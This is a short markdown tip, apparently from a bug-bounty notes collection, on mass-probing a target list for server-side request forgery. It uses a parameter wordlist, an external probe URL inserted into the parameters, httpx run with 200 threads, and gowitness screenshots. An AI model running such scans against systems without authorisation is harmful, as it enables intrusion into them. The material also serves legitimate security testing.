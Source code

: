- [Find SSRF on all your huge target list via httpx](https://twitter.com/Alra3ees/status/1478188105060470785?s=20&t=hWFdVYd7HgTbL4kYN3EiHg)

    1. Download [THIS](https://github.com/lutfumertceylan/top25-parameter/blob/master/ssrf-parameters.txt)

    2. Add [http://brutelogic.com.br/poc.svg](https://t.co/R928jn8xlb) on {target}

    3. Run httpx

        ```bash
        httpx -paths ssrf-parameters.txt -threads 200 -o ssrf.txt
        ```

    4. Screenshot the result

        ```bash
        gowitness file -f ssrf.txt
        ```

    ![Image](../_resources/FIO.jpg)

    > https://twitter.com/SHenopeX0/status/1480496328694280199?s=20&t=hWFdVYd7HgTbL4kYN3EiHg
    >
    > https://twitter.com/Alra3ees/status/1480758969148788738?s=20&t=hWFdVYd7HgTbL4kYN3EiHg
